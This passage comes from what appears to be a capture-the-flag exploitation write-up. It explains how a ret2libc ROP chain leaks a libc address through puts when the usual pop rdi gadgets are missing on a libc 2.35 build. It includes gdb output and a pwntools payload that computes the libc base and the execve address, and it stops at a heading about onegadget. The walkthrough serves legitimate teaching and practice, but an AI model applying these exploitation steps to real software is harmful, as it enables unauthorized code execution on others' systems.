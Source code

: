 Since this is dynamically-compiled binary, the code section of the code only grants us access to functions used within the actual body of the binary. Since this does not include any calls to system/execve or similar, ways to open files like flag.txt, or syscall gadgets, we will need to access the more complete set of functions in the libc section. However, ASLR is applied to the libc section, so just like with PIE, we need to figure out the base address of libc to get additional addresses.
 
Traditionally, ret2libc works by loading a GOT entry (which contains libc addresses for the libc functions used in the binary) into the rdi register (which controls the first argument of a function in x86-64), calling puts or printf, and then restarting program execution again to get a new ROP chain using libc addresses; I have a more detailed writeup on that methodology here: <https://github.com/knittingirl/CTF-Writeups/tree/main/pwn_challs/Imaginary_CTF/speedrun>. The problem with that approach here is that the binary was compiled on a system using libc 2.35, such as Ubuntu 22. While I have yet to find formal documentation on this, I have observed that these binaries seem to be getting compiled without the __libc_csu_init function, which was responsible for the reliable presence of pop rdi and pop rsi gadgets, which could be used to control the first and second arguments of a function in a ROPchain quite easily (it also allowed for a ret2csu attack to control rdx and the third arguments). I strongly suspect that this function was removed as a security measure because of how helpful it was for ROP. The upshot of all this is that there is not a good way to control the value of rdi in this particular binary.

Fortunately, we get pretty lucky with this particular binary. If we inspect the value of rdi at the end of the echo function, which is where our ROPchain starts executing, we can see that it's a stack address that contains a libc address for the function "funlockfile". If we simply call puts or printf here, this libc address gets printed out, allowing us to find the base address of libc on the run, and use addresses in libc on our third and final run at the ROPchain. 
```
gef➤  x/gx $rdi
0x7ffd44dd5b80: 0x00007ff99cb310d0
gef➤  x/5i 0x00007ff99cb310d0
   0x7ff99cb310d0 <funlockfile>:        endbr64
   0x7ff99cb310d4 <funlockfile+4>:      mov    rdi,QWORD PTR [rdi+0x88]
   0x7ff99cb310db <funlockfile+11>:     mov    eax,DWORD PTR [rdi+0x4]
   0x7ff99cb310de <funlockfile+14>:     sub    eax,0x1
   0x7ff99cb310e1 <funlockfile+17>:     mov    DWORD PTR [rdi+0x4],eax
```
Here is a payload that can be added to the payload above to get the libc leak and run the ROP portion of the binary again (I simply returned directly to echo, which seemed to bypass the movaps issue). I'm printing execve so that we can look at the address in GDB and double-check that the leak is working properly.
```
libc = ELF('libc.so.6')
payload2 = padding
payload2 += p64(pie_base + elf.symbols['puts'])
payload2 += p64(pie_base + elf.symbols['echo'])
target.sendline(str(len(payload2)+1))
target.send(payload2)

print(target.recvuntil(b'Echo2: '))
print(target.recv(287))
leak = (target.recv(6))

funlockfile = (u64(leak+b'\x00' * 2))
libc_base = funlockfile - libc.symbols['funlockfile']
execve = libc_base + libc.symbols['execve']
print(hex(execve))
```
## Onegadget and Win
